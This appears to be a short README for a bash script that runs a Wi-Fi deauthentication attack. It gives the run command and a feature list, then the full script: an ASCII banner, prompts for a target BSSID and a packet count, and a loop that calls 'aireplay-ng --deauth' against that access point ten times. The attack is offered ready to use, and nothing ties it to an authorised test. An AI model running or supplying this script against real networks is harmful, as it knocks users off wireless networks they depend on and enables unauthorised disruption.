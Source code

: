 # Deauthenticate Users from Network

```bash
sudo bash script.bash
```

## Features

- Useable on any Linux System with Aireplay.ng 
- No Bugs
- Simple to use
- Made by a pro

## Script's Code

```shell
echo -e '


$$$$$$$\                                         $$\     $$\       
$$  __$$\                                        $$ |    $$ |      
$$ |  $$ | $$$$$$\          $$$$$$\  $$\   $$\ $$$$$$\   $$$$$$$\  
$$ |  $$ |$$  __$$\ $$$$$$\ \____$$\ $$ |  $$ |\_$$  _|  $$  __$$\ 
$$ |  $$ |$$$$$$$$ |\______|$$$$$$$ |$$ |  $$ |  $$ |    $$ |  $$ |
$$ |  $$ |$$   ____|       $$  __$$ |$$ |  $$ |  $$ |$$\ $$ |  $$ |
$$$$$$$  |\$$$$$$$\        \$$$$$$$ |\$$$$$$  |  \$$$$  |$$ |  $$ |
\_______/  \_______|        \_______| \______/    \____/ \__|  \__|
                         The Mobly Collection V.2                                          
                                                                   '
                                                                                                                                        
echo "Enter BSSID" 
read ssid
echo "Deauth packets (suggest 5)"
read packet

clear
for i in {1..10}; do sudo aireplay-ng --deauth $packet -a $ssid wlan0 ; date ; sleep 5 ; done
```


